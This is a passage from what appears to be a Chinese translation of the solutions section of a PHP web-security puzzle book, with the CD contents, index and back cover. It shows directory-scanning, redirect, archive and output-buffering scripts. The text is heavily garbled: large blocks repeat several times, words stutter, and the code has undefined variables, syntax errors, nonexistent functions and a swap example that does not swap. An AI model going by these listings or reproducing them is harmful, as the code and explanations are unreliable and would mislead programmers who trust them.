如果列表 II.14.8 生成的报告包含过多的“额外”文件（例如用户上传的图像或文本文件），可以通过添加过滤器来修改条件，例如只捕获 PHP 文件。

## II.14.4. 监控大文件

这个问题也可以通过递归遍历目录树来解决。列表 II.14.9 显示了一个列出所有超过 50 KB 文件大小限制的 PHP 文件脚本。

## II.14.9. 用于定位大文件的脚本

```php
<?php
// 目录名称
$dirname = ".";
// 调用递归进入
// 根目录子目录的函数
scan_dir($dirname);
/////////////////////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false) {
        // 检查 $file 变量是否
        // 等于当前或上级目录
        if($file != "." && $file != "..") {
            // 提取文件大小...
            $filesize = filesize($dirname."/".$file);
            // 如果文件大小大于 50 KB
            if($fsize > 50*1024)
            {
                // 提取文件后缀名
                $ext = strchr($dirname."/"$file,
```

# 第 II.14 章: 脚本 377

```php
if($fsize > 50*1024)
{
    // 提取文件后缀名
    $ext = strchr($dirname."/"$file
```

# 第 II.15 章: 杂项


## II.15.1. 交换变量的位置

解决此问题的脚本可能类似于列表 II.15.1 所示。

### 列表 II.15.1. 交换变量的位置

```php
<?php
$x = 4;
$y = 5;
echo "Before:<br>";
echo "x = $y<br>";
```

# 第 II.15 章: 杂项 379

脚本执行结果如图 II.15.1 所示。


## II.15.2. 页面预加载脚本

如果访问者被直接发送到 `1.php` 页面（列表 I.15.1）并必须等待加载，他们可能会认为网站挂了。因此，他们应该先重定向到 `2.php` 页面（列表 II.15.2）。

### 列表 II.15.2. 页面预加载脚本 (2.php)

```php
<?php
// 这是 2.php 文件。
echo
"<p>计算结果可能需要一些时间。请等待 5 秒。</p>
// 重定向到 1.php 页面
echo "<HTML><meta http-equiv='refresh' content='5;URL=1.php'>"
```

通过这种方式，当 `1.php` 页面加载时，会显示“计算结果可能需要一些时间。请等待 5 秒。” 脚本执行结果显示在图 II.15.1 中。显示执行进度


第 380 页: 解决方案

img/a893312ec68b8170fe567f785e95c06e_391_0.png) 显示动画 (GIF) 用户等待等待。

## II.15.3. 打打包文件。

```php
<?php
/////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false) {
        // 检查 $file 变量是否
        // 等于当前或上级目录
        if($file != "." && $file != "..") {
            // 提取文件大小...
            $filesize = filesize($dirname."/".$file);
            // 如果文件大小大于 50 KB
            if($fsize > 50*1024)
            {
                // 提取文件后缀名
                $ext = strchr($dirname."/"$file,
```

# 第 II.15 章: 杂项

```php
if($fsize > 50*1024)
{
    // 提取文件后缀名
    $ext = strchr($dirname."/"$file
```

381 页

```php
// 目录名称
$dirname = ".";
// 调用递归进入
// 根目录子目录的函数
scan_dir($dirname);
/////////////////////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false) {
        // 检查 $file 变量是否
        // 等于当前或上级目录
        if($file != "." && $file != "..") {
            // 提取文件大小...
            $filesize = filesize($dirname."/".$file);
            // 如果文件大小大于 50 KB
            if($fsize > 50*1024)
            {
                // 提取文件后缀名
                $ext = strchr($dirname."/"$file,
```

```php
// 检查 $file 变量是否等于
// 当前目录或上级目录
if($file != "." && $file != "..")
{
    $ftime = filetime($dirname."/"$file);
    if(date("Y") == date("Y", $ftime) &&
        date("m") == date("m", $ftime) &&
        date("d") == date("d", $ftime))
    {
        echo date("Y-m-d", $ftime) . " " . $dirname."/"$file."<br>";
    }
    // 如果当前项目是一个目录
    // 则递归调用 scandir() 函数
    if(is_dir($dirname."/"$file))
    {
        scandir($dirname."/"$file);
    }
    // 关闭目录
    closedir($dir);
}?>
```

在遍历目录树时，必须从递归下降列表中排除 `.`（当前目录）和 `..`（父目录），以防止脚本进入无限循环。`scandir()` 函数通过以下条件找到在当天创建或修改的文件：

```php
if(date("Y") == date("Y", $ftime) &&
    date("m") == date("m", $ftime) &&
    date("d") == date("d", $ftime)
```

将条件更改为如下：

```php
if(date("Y") == date("Y", $ftime) &&
    date("m") == date("m", $ftime)
```

因此，在本月内创建或修改的文件将被列出来。

如果列表 II.14.8 生成的报告包含过多的“额外”文件（例如用户上传的图像或文本文件），可以通过添加过滤器来修改条件，例如只捕获 PHP 文件。

## II.14.4. 监控大文件

这个问题也可以通过递归遍历目录树来解决。列表 II.14.9 显示了一个列出所有超过 50 KB 文件大小限制的 PHP 文件脚本。

## II.14.9. 用于定位大文件的脚本

```php
<?php
// 目录名称
$dirname = ".";
// 调用递归进入
// 根目录子目录的函数
scan_dir($dirname);
/////////////////////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
```


# 第 II.14 章: 脚本 377

```php
// 循环读取当前目录
while (($file = readdir($dir)) != false) {
    // 检查 $file 变量是否
    // 等于当前或上级目录
    if($file != "." && $file != "..") {
        // 提取文件大小...
        $filesize = filesize($dirname."/".$file);
        // 如果文件大小大于 50 KB
        if($fsize > 50*1024)
        {
            // 提取文件后缀名
            $ext = strchr($dirname."/"$file,
```

```php
if($fsize > 50*1024)
{
    // 提取文件后缀名
    $ext = strchr($dirname."/"$file
```

# 第 II.15 章: 杂项


## II.15.1. 交换变量的位置

解决此问题的脚本可能类似于列表 II.15.1 所示。

列表 II.15.1. 交换交换的位置

```php
<?php
$x = 4;
$y = 5;
echo "Before:<br>";
echo "x = $y<br>";
```

# 第 II.15 章: 杂项 379

脚本执行结果如图 II.15.1 所示。


## II.15.2. 页面预加载脚本

如果访问者被直接发送到 `1.php` 页面（列表 I.15.1）并必须等待加载，他们可能会认为网站挂了。因此，他们应该先重定向到 `2.php` 页面（列表 II.15.2）。

列表 II.15.2. 页面预加载脚本 (`2.php`)

```php
<?php
// 这是 2.php 文件。
echo
"<p>计算结果可能需要一些时间。请等待 5 秒。</p>
// 重定向到 1.php 页面
echo "<HTML><meta http-equiv='refresh' content='5;URL=1.php'>"
</HTML>
```

通过这种方式，当 `1.php` 页面加载时，会显示“计算结果可能需要一些时间。请等待 5 秒。” 脚本执行结果显示在图 II.15.1 中。显示执行进度

img/a893312ec68b8170fe567f785e95c06e_392_0.png) 第 380 页: 解决方案

img/a893312ec68b8170fe567f785e95c06e_391_0.png) 显示动画 (GIF) 用户等待等待。

## II.15.3. 打打包文件。

```php
<?php
/////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false) {
        // 检查 $file 变量是否
        // 等于当前或上级目录
        if($file != "." && $file != "..") {
            // 提取文件大小...
            $filesize = filesize($dirname."/".$file);
            // 如果文件大小大于 50 KB
            if($fsize > 50*1024)
            {
                // 提取文件后缀名
                $ext = strchr($dirname."/"$file,
```

# 第 II.15 章: 杂项

```php
if($fsize > 50*1024)
{
    // 提取文件后缀名
    $ext = strchr($dirname."/"$file
```

381 页

```php
// 目录名称
$dirname = ".";
// 调用递归进入
// 根目录子目录的函数
scan_dir($dirname);
/////////////////////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false) {
        // 检查 $file 变量是否
        // 等于当前或上级目录
        if($file != "." && $file != "..") {
            // 提取文件大小...
            $filesize = filesize($dirname."/".$file);
            // 如果文件大小大于 50 KB
            if($fsize > 50*1024)
            {
                // 提取文件后缀名
                $ext = strchr($dirname."/"$file,
```

```php
// 检查 $file 变量是否等于
// 当前目录或上级目录
if($file != "." && $file != "..")
{
    $ftime = filetime($dirname."/"$file);
    if(date("Y") == date("Y", $ftime) &&
        date("m") == date("m", $ftime) &&
        date("d") == date("d", $ftime))
    {
        echo date("Y-m-d", $ftime) . " " . $dirname."/"$file."<br>";
    }
    // 如果当前项目是一个目录
    // 则递归调用 scandir() 函数
    if(is_dir($dirname."/"$file))
    {
        scandir($dirname."/"$file);
    }
    // 关闭目录
    closedir($dir);
}?>
```

在遍历目录树时，必须从递归下降列表中排除 `.`（当前目录）和 `..`（父目录），以防止脚本进入无限循环。`scandir()` 函数通过以下条件找到在当天创建或修改的文件：

```php
if(date("Y") == date("Y", $ftime) &&
    date("m") == date("m", $ftime) &&
    date("d") == date("d", $ftime)
```

将条件更改为如下：

```php
if(date("Y") == date("Y", $ftime) &&
    date("m") == date("m", $ftime)
```

因此，在本月内创建或修改的文件将被列出来。

如果列表 II.14.8 生成的报告包含过多的“额外”文件（例如用户上传的图像或文本文件），可以通过添加过滤器来修改条件，例如只捕获 PHP 文件。

## II.14.4. 监控大文件

这个问题也可以通过递归遍历目录树来解决。列表 II.14.9 显示了一个列出所有超过 50 KB 文件大小限制的 PHP 文件脚本。

## II.14.9. 用于定位大文件的脚本

```php
<?php
// 目录名称
$dirname = ".";
// 调用递归进入
// 根目录子目录的函数
scan_dir($dirname);
/////////////////////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false) {
        // 检查 $file 变量是否
        // 等于当前或上级目录
        if($file != "." && $file != "..") {
            // 提取文件大小...
            $filesize = filesize($dirname."/".$file);
            // 如果文件大小大于 50 KB
            if($fsize > 50*1024)
            {
                // 提取文件后缀名
                $ext = strchr($dirname."/"$file,
```

# 第 II.14 章: 脚本 377

```php
if($fsize > 50*1024)
{
    // 提取文件后缀名
    $ext = strchr($dirname."/"$file
```

# 第 II.15 章: 杂项


## II.15.1. 交换变量的位置

解决此问题的脚本可能类似于列表 II.15.1 所示。

列表 II.15.1. 交换变量的位置

```php
<?php
$x = 4;
$y = 5;
echo "Before:<br>";
echo "x = $y<br>";
```

# 第 II.15 章: 杂项 379

脚本执行结果如图 II.15.1 所示。


## II.15.2. 页面预加载脚本

如果访问者被直接发送到 `1.php` 页面（列表 I.15.1）并必须等待加载，他们可能会认为网站挂了。因此，他们应该先重定向到 `2.php` 页面（列表 II.15.2）。

列表 II.15.2. 页面预加载脚本 (`2.php`)

```php
<?php
// 这是 2.php 文件。
echo
"<p>计算结果可能需要一些时间。请等待 5 秒。</p>
// 重定向到 1.php 页面
echo "<HTML><meta http-equiv='refresh' content='5;URL=1.php'>"
</HTML>
```

通过这种方式，当 `1.php` 页面加载时，会显示“计算结果可能需要一些时间。请等待 5 秒。” 脚本执行结果显示在图 II.15.1 中。显示执行进度

img/a893312ec68b8170fe567f785e95c06e_392_0.png) 第 380 页: 解决方案

img/a893312ec68b8170fe567f785e95c06e_391_0.png) 显示动画 (GIF) 用户等待等待。

## II.15.3. 打打包文件。

```php
<?php
/////////////////////////////////////////
// 用于递归遍历目录树的函数
/////////////////////////////////////////
function scan_dir($dirname)
{
    // 打开当前目录
    $dir = opendir($dirname);
    // 循环读取当前目录
    while (($file = readdir($dir)) != false) {
        // 检查 $file 变量是否
        // 等于当前或上级目录
        if($file != "." && $file != "..") {
            // 提取文件大小...
            $filesize = filesize($dirname."/".$file);
            // 如果文件大小大于 50 KB
            if($fsize > 50*1024)
            {
                // 提取文件后缀名
                $ext = strchr($dirname."/"$file,
```

```php
// 在 archive.tar 文件中
$fd = fopen("archive.tar", "w");
fwrite($fd, implode("", $arr));
close($fd);
```

列表 II15.6 使用 `gzfile()` 函数，该函数类似于 `file()` 函数。`gzfile()` 函数返回一个数组，其中每个元素包含解压后的 GZ 文件的一行。数组元素使用 `implode()` 函数连接成字符串，从而生成原始的 `archive.tar` 文件。

## II15.4. 数据缓冲

解决此问题的一种简单方法是使用缓冲。通过 `ob_start()` 函数的帮助对输出进行缓冲，该函数告诉 PHP 解释器不在浏览器窗口中显示输出，而是将其存储在内部缓冲区中。可以使用 `ob_get_contents()` 函数获取缓冲区的内容。使用 `ob_end_clean()` 函数清除缓冲区。当缓冲区成功清除时，该函数返回 `true`，否则返回 `false`。在随机数字序列中将所有数字 1 加粗的任务可以像列表 II15.7 所示解决。

列表 II15.7. 高亮所有数字 1

```php
<?php
// 将所有输出重定向到缓冲区
ob_start();
// 构建页面
for($i = 0; $i < 1000; $i++) echo rand().
```


384 第二部分：解决方案

执行列表 II.15.7 中的脚本得到的结果可能如图 II.15.2 所示。


**图 II.15.2.** 在随机数字序列中将所有数字 1 加粗。

## CD 盘说明

此 CD 盘的内容如下：

- `Readme.txt` 文件包含 CD-ROM 的说明。
- `Installing Apache, PHP, MySQL.htm` 文件包含在本地主机上安装 Apache、PHP 和 MySQL 组合的简要说明。
- `SCRIPTS` 目录包含书中的所有示例，并附带了现用的解决方案。其文件夹结构如下：

| 文件夹 | 描述 | 章节 |
|---|---|---|
| 1 | 第 1 章答案 | 1 |
| 2 | 第 2 章答案 | 2 |
| 3 | 第 3 章答案 | 3 |
| 4 | 第 4 章答案 | 4 |
| 5 | 第 5 章答案 | 5 |
| 6 | 第 6 章答案 | 6 |
| 7 | 第 7 章答案 | 7 |
| 8 | 第 8 章答案 | 8 |
| 9 | 第 9 章答案 | 9 |
| 10 | 第 10 章答案 | 10 |
| 11 | 第 11 章答案 | 11 |
| 12 | 第 12 章答案 | 12 |
| 13 | 第 13 章答案 | 13 |
| 14 | 第 14 章答案 | 14 |
| 15 | 第 15 章答案 | 15 |

## 索引

`$_SERVER['HTTP_USER_AGENT']`, 257

### C

`foreach` 循环, 102

层叠样式表, 6

格式:

Rich Site Summary, 68

命令:

前向代码, 373

`chmod`, 366

FTP, 77

`dir`, 99

函数:

`find`, 359

`exec()`, 88

常量:

`feof()`, 323

`FTP_FAILED`, 317

`fgetrs()`, 295, 323

`FTP_FINISHED`, 317

`file_get_contents()`, 294

`FTP_MOREDATA`, 317

`filetime()`, 374

Cookies, 46, 64

`fileinode()`, 321

禁用, 48

`fsockopen()`, 321, 343

窃取, 365

`ftp_cdup()`, 317

Cron 服务, 365

`ftp_chdir()`, 316

跨站脚本, 246

`ftp_chmod()`, 320

CSS, 6

`ftp_close()`, 313

自定义会话, 46

`ftp_connect()`, 312

机制, 232

`ftp_login()`, 312

### D

`ftp_nb_continue()`, 317

数据库转储, 43

`ftp_nb_get()`, 318

指令:

`ftp_nlist()`, 316

`memory_limit`, 295

`ftp_pwd()`, 316

下拉列表, 40

### E

`ftp_rawlist()`, 314

电子邮件, 82

`ftp_systype()`, 314

relay, 83

`get_code()`, 371

欧洲中央银行, 75, 304

`get_content()`, 232

`gethostbyaddr()`, 350

### F

`gethostbyname()`, 349

文件:

`gzfile()`, 383

`php.ini`, 295

`gzopen()`, 382

文件传输协议, 77

`highlight_file()`, 17

`highlight_string()`, 17

`htmlspecialchars()`, 248

`implode()`, 383

`INET_ATON()`, 339

`INET_NOA()`, 339

`mail()`, 331

`.htaccess`, 61

`_once` 后缀, 107

`<br>` 标签, 98

`<tr>`, 104

### A

访问权限, 360, 366

对齐, 6

美国互联网数字注册局, 84

Apache, 77

APNIC, 348

存档:

`tar.gz`, 363

`tar.gz()`, 89

ARIN, 84

亚太网络中心, 348

认证, 57

`AUTO_INCREMENT`, 30

### B

反引号, 97

数据缓冲, 93

索引 387

`mysql_query()` 函数, 44

`ob_end_clean()`, 383

`ob_get_contents()`, 383

`ob_start()`, 383

`parse_url()`, 373

`passsthru()`, 88

`printf()`, 101

`scan_dir()`, 374

`serialize()`, 111, 380

`session_id()`, 231

`session_set_handler()`, 46, 232

`session_start()`, 110, 236

`setcookie()`, 111, 240

`stripslashes()`, 111

`str()`, 324

`system()`, 88

`unserialize()`, 111

`urlencode()`, 329

`whois()`, 346

### P

页面访问代码, 372

参数, 331

`errno`, 321

`host`, 312

`message`, 331

`port`, 312

`subject`, 331

`username`, 313

### I

`include_once`, 107

Inode, 89

### J

JavaScript, 239

### K

关键字, 52

### L

链接标识符, 312

Linux, 60

### G

GET 方法, 108

Gzip 工具, 363

### H

头部:

`accept`, 298

`Cc`, 337

`charset`, 337

`Connection`, 326

`Content-Language`, 327

`Content-Length`, 328

`Content-Type`, 328

`Date`, 327

`Last-Modified`, 327

`Server`, 327

`Transfer-Encoding`, 328

`User-Agent`, 298

### M

群发, 336

防止, 338

主键, 30

MD5, 59

Modifier:

`i`, 298

`s`, 298

监控, 91

### Q

引号, 6

### R

引用服务器, 346

正则表达式, 12

`require_once`, 107

Réseaux 中心, 384

RFC 2616, 79

RSS, 68

### S

搜索引擎, 52

搜索模式:

贪婪, 298

统计:

字符串函数, 5

切换变量, 92

SQL 注入, 65

SSL, 56

会话, 46

Sockets, 108

会话式协议, 56

Sessions, 45

User , 61

USER_AGENT, 52

User-Agent 头部, 258

### V

验证链接, 91

### W

Web 应用, 15, 36

Whois 服务, 84

Windows XP, 55, 98

### X

XML 文件, 68

XSS, 246

## PHP 安全与破解

## 谜题

本书专注于破解和保护使用 PHP 编写的 Web 应用，还考虑了相关的 Web 编程技术（HTML、Cookies、JavaScript）、应用协议（HTTP、SMTP）、SQL 查询语言以及 Apache Web 服务器的破解。由于这些技术只能通过实践获得，因此书分为两个部分：一部分涵盖问题（谜题），另一部分致力于解决方案。许多保护应用程序不被黑客攻击的 Web 程序员的主要障碍是他们的思维与黑客不同，本书让读者进入黑客的角度并理解他们使用的技术。

Web 应用解决方案


### 关于作者

Maxim Kulmikov 是物理学、数学和量子力学 42 本书的合作者。
Igor Simdyanov 是软件开发、光化学和分子量子力学 42 本书的合作者。

随附的 CD-ROM 包含了书中的所有示例并附带现用的解决方案。

类别：Web 编程
级别：中级到高级

ISBN 1-931769-57-5
U.S. $39.95 Canada $53.95


A-LIST, LLC
http://www.alistpublishing.com
所有商标和和服务标记均为其所有者的财产。
美国制造。
